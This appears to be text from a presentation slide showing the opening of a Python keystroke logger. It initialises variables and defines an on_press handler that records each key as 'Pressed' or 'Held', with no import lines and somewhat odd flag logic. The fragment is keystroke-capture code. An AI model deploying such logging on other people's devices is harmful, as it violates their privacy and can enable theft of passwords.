

1.Import the necessary libraries:

# Algorithm & Deployment
# Initialize the variables
keys_used = []
flag = False
keys = ""

# Define the on_press function
def on_press(key):
    global flag, keys_used, keys
    if flag == False:
        keys_used.append(
            {'Pressed': f'{key}'}
        )
        flag = True

    if flag == True:
        keys_used.append(
            {'Held': f'{key}'}
        )